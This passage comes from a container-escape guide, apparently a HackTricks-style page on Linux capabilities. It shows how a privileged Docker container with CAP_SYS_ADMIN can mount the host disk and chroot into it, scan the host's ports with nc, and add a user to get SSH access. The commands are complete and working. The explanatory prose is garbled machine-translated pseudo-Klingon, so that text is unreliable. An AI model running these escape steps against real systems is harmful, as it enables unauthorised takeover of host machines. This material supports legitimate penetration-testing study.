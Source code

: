 You can check the enabled capabilities inside the docker container using:
```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
QawHaq DIS\_ADMIN capability enabled vItlhutlh. 

* **Mount**

vaj Docker container **vItlhutlh Host Disk je vItlhutlh**:
```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```
* **Qa'vIn Qap**

DochvamnIS qatlh **SSH** server vItlhutlh.\
vaj **Docker host disk** vItlhutlhDaq **user Qap** je vItlhutlhDaq **user** vItlhutlhDaq **SSH** vItlhutlhDaq **ghItlh**.
```bash
#Like in the example before, the first step is to mount the docker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```
## CAP\_SYS\_PTRACE
